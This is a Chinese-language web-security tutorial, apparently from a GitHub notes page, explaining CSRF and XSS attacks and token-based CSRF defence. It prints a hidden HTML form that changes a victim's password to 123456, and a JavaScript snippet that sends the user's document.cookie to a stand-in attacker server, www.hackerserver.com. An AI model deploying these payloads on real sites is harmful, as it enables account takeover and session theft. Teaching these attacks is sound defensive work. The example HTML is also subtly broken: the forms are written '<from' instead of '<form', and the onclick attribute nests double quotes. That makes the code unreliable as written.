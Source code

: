 ## 网站安全与防范

### CSRF攻击

简单点说，CSRF跨站请求伪造（英语：Cross-site request forgery），就是攻击者利用受害者的身份，以受害者的名义发送恶意请求。与XSS（Cross-site scripting，跨站脚本攻击）不同的是，XSS的目的是获取用户的身份信息，攻击者窃取到的是用户的身份（session/cookie），而CSRF则是利用用户当前的身份去做一些未经过授权的操作。

CSRF攻击最早在2001年被发现，由于它的请求是从用户的IP地址发起的，因此在服务器上的web日志中可能无法检测到是否受到了CSRF攻击，正是由于它的这种隐蔽性，很长时间以来都没有被公开的报告出来，直到2007年才真正的被人们所重视。

#### CSRF有哪些危害

CSRF可以盗用受害者的身份，完成受害者在web浏览器有权限进行的任何操作，想想吧，能做的事情太多了。

- 以你的名义发送诈骗邮件，消息
- 用你的账号购买商品
- 用你的名义完成虚拟货币转账
- 泄露个人隐私

#### 举个栗子

##### get请求

网站论坛，删除帖子的操作是通过点击http://test.com/article/del/1120这样的链接，以get方式提交到服务器。然后服务器根据当前用户的session获取用户的身份，判断操作是有有效并执行。

按照正常逻辑，这样实现是没有问题的。但是假设一位黑客访问网站后，在网站上传了一张图片，图片的链接地址为：http://test.com/article/del/1120，虽然这样的地址图片是无法加载的。但是如果管理员打开这篇帖子时，浏览器还是会发出该链接的请求。

执行以上操作后，这篇文章就会被删除，在代码逻辑中，也是正确的。

##### post请求

相对于get请求攻击，post请求攻击更加复杂，黑客攻击难度也比较大。

```html
<div style="display:none;">
<from action="http://test.com/user/change_pwd" id="CSRF_form" method="post">
<input type="password" name="pwd" value="123456" />
<input type="password" name="again_pwd" value="123456" />
</from>
</div>
<img src="http://test.com/images/girl.png" onclick="document.getElementById("CSRF_form").submit();">
```

查看以上代码，是不是很熟悉。通过点击图片，将表单进行提交。

很多网站，用户修改密码的操作，就是点击一个页面，然后输入两次新的密码，点击提交，密码就修改完成了，类似于上面的表单。

很多编辑器是支持编辑html源码的，比如百度的ueditor。黑客将上面的代码放到你的网站，然后其他用户浏览后，点击了图片，就会将自己的密码为123456。

#### 如何防范

首先网站在开发时，需要遵守RESTful架构。

在该架构里面，web服务中的操作主要包括post、delete、put、get，对应的就是正删改查。

get操作通过get请求实现，post、delete、put请求通过post模拟请求实现。也就是说，涉及到数据库增删改的操作，就必须通过post方式提交。

给表单提交嵌入一个token。

```html
<from action="http://test.com/user/change_pwd" id="CSRF_form" method="post">
<input type="hidden" name="_method" value="put" />  <!-- 改操作，模拟put提交  -->
<input type="hidden" name="_token" value="<?php echo $token ?>" />
<input type="password" name="pwd" value="" />
<input type="password" name="again_pwd" value="" />
</from>
```

如上，系统生成一个随机的token，并且将该token与session_id和当前页面的链接进行关联。当用户提交表单时，对这些数据进行验证，就可以保证用户不会被误操作。

### xss攻击

XSS：跨站脚本（Cross-site scripting，通常简称为XSS）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了HTML以及用户端脚本语言。

窃取cookies，读取目标网站的cookie发送到黑客的服务器上，如下面的代码：

```
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```

